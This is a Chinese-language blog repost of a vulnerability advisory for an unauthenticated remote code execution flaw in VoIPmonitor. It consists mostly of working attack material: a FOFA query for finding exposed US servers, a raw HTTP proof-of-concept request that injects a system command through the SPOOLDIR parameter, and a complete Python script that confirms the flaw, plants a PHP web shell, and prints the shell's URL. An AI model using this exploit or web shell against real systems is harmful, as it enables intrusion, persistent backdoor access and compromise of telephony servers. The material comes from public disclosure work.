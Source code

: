 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/MFHDQmPkRyVSOsPi4_CXPg)

公众号

VoIPmonitor UnAuth RCE  

=========================

原文链接：  

```
https://ssd-disclosure.com/ssd-advisory-voipmonitor-unauth-rce/
```

FOFA：  

```
title="VoIPmonitor" && country="US"
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZxm6mIV1KHVIwEghUgqcI3111s1SZDZmZiafyUjiczCnX3TgBD15dhkl31AJGZlY2qfZlu8ecGPV1A/640?wx_fmt=png)

受影响的版本：

VoIPmonitor <= 24.60，漏洞分析见原文链接。

**POC：**  

```
POST /index.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,vi;q=0.8,id;q=0.7,ja;q=0.6,zh-TW;q=0.5
Connection: close
Content-Length: 37

SPOOLDIR=test%22.system%28id%29.%22
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZxm6mIV1KHVIwEghUgqcI32dxjo860UT17lY8EKJG7yojcKPRrsGKAgPQMpCTM2tHR2LnJOXFoQg/640?wx_fmt=png)

原文给的脚本：  

```
import argparse
from sys import argv,exit
import time
import random
import string

try:
    import requests
except ImportError:
    print("pip3 install requests ")

print("""
###############################################
#              VOIP Monitor RCE               #
###############################################
""")

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Connection": "close"}

def get_target(args):
    hostname = args.host
    path = args.path
    if path:
        return f"http://{hostname}/{path}/index.php"
    else:
        return f"http://{hostname}/index.php"

def set_tmp(args):
    global headers
    target = get_target(args)
    n_data = {"SPOOLDIR": "/tmp", "recheck": "annen"}
    set_totmp = requests.post(target, n_data, headers=headers)
    print(f"[*] set /tmp {set_totmp}")

def checkVulnerability(args):
    global headers
    target = get_target(args)
    print(f"[+] Attacking {target}")
    testcmd = {"SPOOLDIR": "test\".system(id).\"", "recheck": "annen"}
    response_text = b"uid="
    testcmd_req = requests.post(target, testcmd, verify=False, headers=headers)
    if response_text in testcmd_req.content:
        print("[*] host is vulnerable")
    else:
        print("[-] host is not vulnerable")
        exit()
        
def uploadshell(args):
    global headers
    hostname = args.host
    path = args.path
    shell_path = ""
    shellfilename = str ( ''.join(random.choice(string.ascii_lowercase) for i in range(10)) )
    target = get_target(args)
    rce_payload = {"SPOOLDIR": f"/tmp\".file_put_contents('{shellfilename}.php','<?php echo system($_GET[\"a\"]);').\"", "recheck": "annen"}
    rce_req = requests.post(target, headers=headers, data=rce_payload)
    print(f"[*] uploading shell {rce_req.status_code}")
    if path:
        shell_path = f"http://{hostname}/{path}/{shellfilename}.php"
    else:
        shell_path = f"http://{hostname}/{shellfilename}.php"
    shell_check = requests.get(shell_path, headers=headers, params={'a':'id'})
    print(f"[*] RCE Check : {shell_check.text}")
    print(f"[*] Your Shell at {shell_path}")

def main():
    parser = argparse.ArgumentParser(description='VoIP Monitor all versions command execution')
    parser.add_argument('-t','--host',help='Host', type=str)
    parser.add_argument('-b', '--path',help='Path of the VoIP Monitor', type=str)
    args = parser.parse_args()
    set_tmp(args)
    checkVulnerability(args)
    set_tmp(args)
    uploadshell(args)
    set_tmp(args)

if __name__ == "__main__":
    main()
```

脚本会传密码为 a 的一句话木马：  

```
http://x.x.x.x/twyongzyih.php?a=ifconfig
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZxm6mIV1KHVIwEghUgqcI3una9g6JIWebH2C7cZKpqSF6HnEwlV1x0c7XdQZia7u0dUjFXXXiatwPQ/640?wx_fmt=png)